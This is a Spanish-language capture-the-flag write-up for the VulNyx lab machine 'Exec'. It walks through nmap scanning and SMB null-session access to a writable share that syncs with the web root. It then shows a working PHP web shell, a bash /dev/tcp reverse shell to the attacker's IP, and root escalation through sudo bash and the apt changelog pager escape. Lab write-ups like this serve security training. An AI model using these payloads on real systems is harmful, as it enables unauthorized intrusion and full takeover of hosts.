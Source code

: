 ```yaml
---
layout: default
title: Exec
parent: VulNyx
grand_parent: Writeups
---
```


# Exec
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

- SMB Enumeration (RW permission)
- RCE via PHP web shell
- Abusing sudoers binaries (bash, apt)
- User pivoting

## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos los puertos 22(SSH), 80(HTTP), y 139/455(netbios-SMB):

```bash
nmap -sS -n -Pn --open -p- 172.16.0.5
```

- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

- n: para que no haga resolucion DNS y tarde menos el escaneo

- Pn: para evitar el descubrimiento de hosts

- open: para que solo muestre los puertos abiertos

- -p-: para que escanee todo el rango de puertos

```bash
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Ahora escanearemos para encontrar mas informacion sobre los puertos y servicios que estan corriendo

```bash
nmap -sCV -p22,80,139,445 172.16.0.5
```

- sCV: Lanza script para enumerar el servicio y obtiene informacion sobre la version del servicio

```bash

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp  open  http        Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: EXEC, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-06-24T23:16:21
|_  start_date: N/A
|_clock-skew: -2s
```

> En el puerto 80 no encontraremos mas que el sitio web por defecto de apache

### SMB - 445

Relizamos una enumeracion basica usando ```smbmap``` usando null session para saber cuales son los recursosc compartidos y sus permisos.

```bash
smbmap -H 172.16.0.5 -u "null" -p "null" --no-banner
```

Veremos que tenemos permisos RW sobre el recurso ```server```.

```bash
server 			READ, WRITE				Developer Directory
```

Ahora ingresaremos en el usando smbclient aplicando null session y nos daremos cuenta que existe el archivo ```index.html```:

```bash
smbclient //172.16.0.5/server -N
``` 
```bash
smb: \> ls
  .                                   D        0  Mon Apr 15 02:45:54 2024
  ..                                  D        0  Mon Apr 15 02:04:12 2024
  index.html                          N    10701  Mon Apr 15 02:04:31 2024

		19480400 blocks of size 1024. 16491120 blocks available
```

Si lo visualizamos es el mismo contenido que el del sitio web, por lo cual es muy probable que esten sincronizados, eso lo comprobamos si subimos un archivo usando el comando ```put```

```bash
smb: \> put archivo.txt
putting file archivo.txt as \archivo.txt (3.1 kb/s) (average 3.1 kb/s)
```

Ahora al ingresar al sitio web y apuntar a ese recurso veremos el contenido del archivo:

![](/assets/img/nyx-exec/1.png)

En este punto simplemente podemos subir una web shell usando PHP, en mi caso usare esta:

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Ahora solo apunteros al recurso pero indicando una reverse shell en el parametro ```cmd```

```bash
http://172.16.0.5/webshell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/<tu-ip>/443%200%3E%261%22
```
```bash
sudo nc -nlvp 443                                                                                                                                 ✘ 1
Connection from 172.16.0.5:55866
bash: cannot set terminal process group (484): Inappropriate ioctl for device
bash: no job control in this shell
www-data@exec:/var/www/html$ 
```

## User-pivoting: www-data -> s3cur4

Si mostramos los permisos a nivel de sudoers veremos que podemos ejecutar bash sin contraseña como el usuario ```s3cur4```:

```bash
Matching Defaults entries for www-data on exec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on exec:
    (s3cur4) NOPASSWD: /usr/bin/bash
```

Ahora ejecutamos bash como el usuario s3cur4 usando el comando:

```bash
sudo -u s3cur4 /usr/bin/bash 
```

## Escalada de privilegios

Al mostrar de nuevo los permisos a nivel de sudoers, veremos que podemos ejecutar ```apt``` como root sin contraseña

```bash
Matching Defaults entries for s3cur4 on exec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User s3cur4 may run the following commands on exec:
    (root) NOPASSWD: /usr/bin/apt
```

Si buscamos en GFTOBins veremos que nos podemos hacer root de esta forma:

```bash
sudo apt changelog apt
!/bin/bash
```

Que en nuestro caso seria asi:

```bash
sudo -u root /usr/bin/apt changelog apt
```

Y despues ejecutar ```!/bin/bash```

Esto nos spawneara una shell y como root

```bash
root@exec:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Eso ha sido todo, gracias por leer
